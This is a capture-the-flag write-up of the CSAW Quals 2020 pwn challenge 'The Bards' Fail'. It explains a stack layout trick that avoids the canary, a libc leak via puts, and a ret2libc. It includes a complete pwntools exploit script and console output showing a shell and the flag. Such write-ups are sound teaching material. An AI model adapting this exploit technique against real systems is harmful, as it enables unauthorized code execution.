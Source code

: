 ```yaml
---
title: The Bards' Fail - CSAW Quals 2020
date: 2020-09-15 20:05:10
author: Pwn-Solo
author_url: https://twitter.com/Pwn_Solo
categories:
  - Pwn
tags:
  - Exploitation
  - Linux
  - CSAW Quals
---
```


**tl;dr**
+ Carefully arranging structs on stack so as to overwrite saved rip , without corrupting the stack canary.
+ Leak libc with puts and execute a ret2libc to get shell 

<!--more-->

**Challenge Points:** 150
**Solves:** 97
**Solved by:** [Pwn-Solo](https://twitter.com/Pwn_Solo) ,[Cyb0rG](https://twitter.com/_Cyb0rG)

## Challenge description

***Pwn your way to glory! You do not need fluency in olde English to solve it, it is just for fun***

we're given the challenge binary along with the libc 

first off , lets take a look at the mitigations enabled 
```gdb
CANARY    : ENABLED
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```

## Functionality

This is what the challenge binary looked like 

```text
*** Welcome to the Bards' Fail! ***

Ten bards meet in a tavern.
They form a band.
You wonder if those weapons are real, or just props...

Bard #1, choose thy alignment (g = good, e = evil):
g	
Choose thy weapon:
1) +5 Holy avenger longsword
2) +4 Crossbow of deadly accuracy
1
Enter thy name:
testname

Bard #2, choose thy alignment (g = good, e = evil):
```

It first asks us to initialize 10 Bards with the option of choosing their alignment (good or evil).
We control the weapon and name of each bard , which are then stored on the stack .

each Bard is stored in a sort of structure on the stack ... looking into it further , we see that the good and evil structs are not quite the same 

```text
'good' allocation -> 48 bytes
0240| 0x7ffdeef25150 --> 0xf0014006c 
0248| 0x7ffdeef25158 ("AAAAAAAA")  <-input 
0256| 0x7ffdeef25160 --> 0x0 
0264| 0x7ffdeef25168 --> 0x0 
0272| 0x7ffdeef25170 --> 0x0 
0280| 0x7ffdeef25178 --> 0x4032000000000000 ('')


'evil' allocation -> 56 bytes
0288| 0x7ffdeef25180 --> 0x63 ('c')
0296| 0x7ffdeef25188 --> 0x4032000000000000 ('')
0304| 0x7ffdeef25190 --> 0x424200140000000f 
0312| 0x7ffdeef25198 --> 0x424242424242 ('BBBBBB') <- input
0320| 0x7ffdeef251a0 --> 0x0 
0328| 0x7ffdeef251a8 --> 0x0 
0336| 0x7ffdeef251b0 --> 0x0 
```

## Exploitation

since evil allocates more bytes I used them to overflow the stack but was greeted with this message ...

```
AAAAAAAAAAAAAAAAAAAA is arrested.
*** stack smashing detected ***:
```

we can see our canary is at the offset 488 from the start of our input and since we give 56*10 bytes we end up corrupting it. The solution is to get our canary to overlap with our input string (instead of the constant data fields of the struct) so that we can choose to not overwrite it . Placing a "good" block at the start ends up doing that for us 

```
second last 'evil' block 
0680| 0x7ffcb4bcd168 --> 0x63 ('c')
0688| 0x7ffcb4bcd170 --> 0x4032000000000000 ('')
0696| 0x7ffcb4bcd178 --> 0x414100140000000f 
0704| 0x7ffcb4bcd180 ('A' <repeats 22 times>)
0712| 0x7ffcb4bcd188 ('A' <repeats 14 times>)
0720| 0x7ffcb4bcd190 --> 0x414141414141 ('AAAAAA')
0728| 0x7ffcb4bcd198 --> 0x69ac49fe9683bf00      <- canary
last 'evil' block 
0736| 0x7ffcb4bcd1a0 --> 0x7ffcb4bcd163 --> 0x630000000000 ('')
0744| 0x7ffcb4bcd1a8 --> 0x4032000000000000 ('') <- corrupted saved rip  
0752| 0x7ffcb4bcd1b0 --> 0x414100140000000f 
0760| 0x7ffcb4bcd1b8 --> 0x141414141 
```

Okay.. so the canary's safe but the data from the last evil struct overwrites the saved rip , lucky for us the 'good' allocation has its input starting from `param_1 + 8` which is exactly where the saved rip will be . All we do is make a 'good' allocation at the end instead and give in our payload to take control of rip.

```
Stopped reason: SIGSEGV
0x0000414141414141 in ?? ()
```

perfect ! now all we need is a libc leak and a simple ret2libc will do the rest  

## Exploit Code

```py
from pwn import *
import sys
import os

remote_ip,port = 'pwn.chal.csaw.io','5019'
binary = 'bard'
brkpts = '''
'''
if sys.argv[1] == 'remote' :
    io = remote(remote_ip,port)

else:
    io = process(binary,env={'LD_PRELOAD':'./libc-2.27.so'})
    
re = lambda a: io.recv(a)
ru = lambda a: io.recvuntil(a)
rl = lambda  : io.recvline()
s  = lambda a: io.send(a)
sl = lambda a: io.sendline(a)
sla= lambda a,b: io.sendlineafter(a,b)
sa = lambda a,b: io.sendafter(a,b)

def good(weapon,name):
	sla(":\n",'g')
	sla("cy\n",str(weapon))
	sa("name:\n",name)

def evil(weapon,name):
	sla(":\n",'e')
	sla("ent\n",str(weapon))
	sa("name:\n",name)

def sheriff():
	sla("do?\n",'e')

def zombie(inp):
	sla("do?\n",inp)

def trigger(payload):
  for i in range(1):
		good(1,b"A"*8)
  for i in range(8):
		evil(1,b"B"*8)
  
  good(1,payload)
  gdb.attach(io,brkpts)
	
  for i in range(1):
		zombie('r')
  
  for i in range(8):
		sheriff()
	
  for i in range(1):
		zombie('r')	

#gadgets
puts = 0x4006d0
pop_rdi = 0x401143
main = 0x40107b
ret = 0x4006ae

if __name__== "__main__":	
	#good -> 48 bytes
	#bad  -> 56 bytes
	payload = p64(pop_rdi)
	payload += p64(0x602020)
	payload += p64(puts)
	payload += p64(main)
	trigger(payload)

	ru("away.")
	rl()
	leak = re(6)
	leak = u64(leak+b'\x00\x00')-0x80a30
	system = leak + 0x4f4e0
	binsh = leak +0x1b40fa
	
	log.info("base {} ".format(hex(leak)))
	log.info("sys {}".format(hex(system)))
	log.info("/bin/sh {}".format(hex(binsh)))

	payload = p64(ret)
	payload += p64(pop_rdi)
	payload += p64(binsh)
	payload += p64(system)
	trigger(payload)

	io.interactive()
```

The idea to get leaks was to call `puts@plt` using a GOT address as the argument ,Then call main again;to then which we give the payload to finally execute a ret2libc


```console
pwn-solo@m4chin3:~/ctf/csaw/bard$ python3 exploit.py remote
[+] Opening connection to pwn.chal.csaw.io on port 5019: Done
[*] base 0x7f9f7fe3a000 
[*] sys 0x7f9f7fe894e0
[*] /bin/sh 0x7f9f7ffee0fa
[*] Switching to interactive mode
Options:
(b)ribe
(f)latter
(r)un
$ ls
bard
flag.txt
$ cat flag.txt
flag{why_4r3_th3y_4ll_such_c0w4rds??}
```
